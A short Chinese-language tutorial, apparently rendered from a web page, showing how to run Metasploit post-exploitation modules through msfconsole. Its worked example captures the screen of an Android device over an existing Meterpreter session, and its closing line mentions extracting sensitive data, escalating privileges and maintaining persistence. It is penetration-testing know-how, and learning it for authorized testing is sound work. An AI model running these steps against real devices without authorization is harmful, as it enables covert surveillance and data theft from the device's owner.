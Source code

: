 使用Metasploit框架的Post模块进行后渗透测试可以按照以下步骤进行。以下是一个基本的使用流程，包括选择、配置和运行Post模块：

1. **启动msfconsole**：
   打开终端并启动Metasploit控制台。
   ```bash
   msfconsole
   ```

2. **列出可用的Post模块**：
   在msfconsole中，可以使用`search`命令来查找可用的Post模块。例如，要查找Android的Post模块：
   ```bash
   search post/android
   ```

3. **选择一个Post模块**：
   使用`use`命令选择一个你要使用的Post模块。例如，选择一个Android屏幕捕获模块：
   ```bash
   use post/android/capture/screen
   ```

4. **查看模块信息**：
   使用`info`命令查看该模块的详细信息，包括需要的选项和描述：
   ```bash
   info
   ```

5. **设置选项**：
   根据模块的信息设置所需的选项，通常包括目标会话ID（SESSION）等。例如，设置目标会话ID为1：
   ```bash
   set SESSION 1
   ```

6. **运行模块**：
   使用`run`命令运行配置好的Post模块：
   ```bash
   run
   ```

以下是一个具体的例子，详细演示如何使用Post模块：

### 示例：使用Post模块捕获Android设备的屏幕

1. **启动msfconsole**：
   ```bash
   msfconsole
   ```

2. **搜索Android的Post模块**：
   ```bash
   search post/android
   ```

3. **选择屏幕捕获模块**：
   ```bash
   use post/android/capture/screen
   ```

4. **查看模块信息**：
   ```bash
   info
   ```

5. **设置目标会话ID**：
   假设你已经有一个有效的Meterpreter会话ID为1：
   ```bash
   set SESSION 1
   ```

6. **运行模块**：
   ```bash
   run
   ```

运行后，你将看到模块的执行结果，例如成功捕获的屏幕截图。

### 其他常用命令

- **查看当前会话**：
  ```bash
  sessions
  ```

- **与特定会话交互**：
  ```bash
  sessions -i <session-id>
  ```

- **后台某个会话**：
  在会话交互模式下，按`Ctrl+Z`将会话置于后台。

通过以上步骤，你可以选择并使用各种Post模块进行后渗透测试。这些模块可以帮助你收集目标系统的更多信息、提取敏感数据、提升权限、持久化访问等。